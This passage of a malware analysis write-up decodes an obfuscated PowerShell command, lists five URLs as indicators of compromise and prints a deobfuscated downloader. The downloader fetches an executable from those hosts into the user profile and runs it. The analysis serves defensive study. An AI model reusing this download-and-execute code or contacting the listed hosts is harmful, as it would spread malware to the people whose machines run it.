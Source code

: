 ## Decoding

Know that we have the encoded powershell command we can load it in *cyberchef*, decode it and extract IOCs using the following filters.
![cyber](images/cyber.png)

The URLS found in the decoded powershell command are the same URLS that we caught in our traffic analysis VM.

```bash
http://amelano.net/wp-includes/css/dist/2ew/
http://911concept.com/images/i6ngX5/
http://ayonschools.com/UBkoqn/
http://beech.org/wayne/lldo/
http://firelabo.com/wp-includes/mf6f4/
```
We can also take the decoded powershell command and with some patience manually deobfuscate it to see if there are more IOCs, which spoiler alert there are, and to get a clean version of the downloader's code.

```powershell
Urls = 'http://amelano.net/wp-includes/css/dist/2ew/,
        http://911concept.com/images/i6ngX5/,
        http://ayonschools.com/UBkoqn/
        http://beech.org/wayne/lldo/
        http://firelabo.com/wp-includes/mf6f4/'

foreach($url in Urls ) 
{
    try {
        &('new-object')net.webclient.downloadfile($urls, $env:userprofile+'\+267.exe')
    
        If ((.('Get-Item') $env:userprofile+'\+267.exe').Length -ge 25859) {
            [Diagnostics.Process]::START($env:userprofile+'\+267.exe')
            break
        }
    } 
    catch{
        
    }
}
```